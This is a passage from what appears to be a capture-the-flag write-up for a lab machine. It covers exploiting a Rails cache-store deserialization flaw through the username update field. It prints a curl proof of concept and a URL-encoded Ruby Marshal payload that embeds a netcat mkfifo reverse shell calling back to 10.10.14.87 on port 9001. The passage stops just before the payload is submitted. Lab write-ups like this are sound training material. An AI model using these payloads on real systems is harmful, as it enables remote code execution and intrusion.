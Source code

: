  > A deserialization of untrusted data vulnernerability exists in rails < 5.2.4.3, rails < 6.0.3.1 that can allow an attacker to unmarshal user-provided objects in MemCacheStore and RedisCacheStore potentially resulting in an RCE.

Since I knew that it would be possible to exploit either `MemCacheStore` or `RedisCacheStore` which includes the `:raw` parameter, I started looking into the various files on gitweb. From the `application.controller.rb` under `app/controllers` I found the following:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Jewel/img2.png"  style="width: 70%" />
</p>

 
Alright, now I knew where I needed to look &rarr; user update, specifically the username parameter. Looking into the exploit, the only exploitation code was part of the curl command:
 
```bat
curl 'localhost:3000/users?new=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T'
```

Looking into the command, the code execution portion specifically created a new file in the `tmp` directory, and I wanted to exploit that. In order to create a reverse shell, it would be as simple as changing the command from `touch /tmp/rce` to the following reverse shell payload:

```bat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.87 9001
```

The resulting exploit is as follows:

```bat
%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.14.87+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
``` 
 
After registering an account on the application and logging in to the blog, I navigated to the profile page and attempted to update the username field with the new payload:
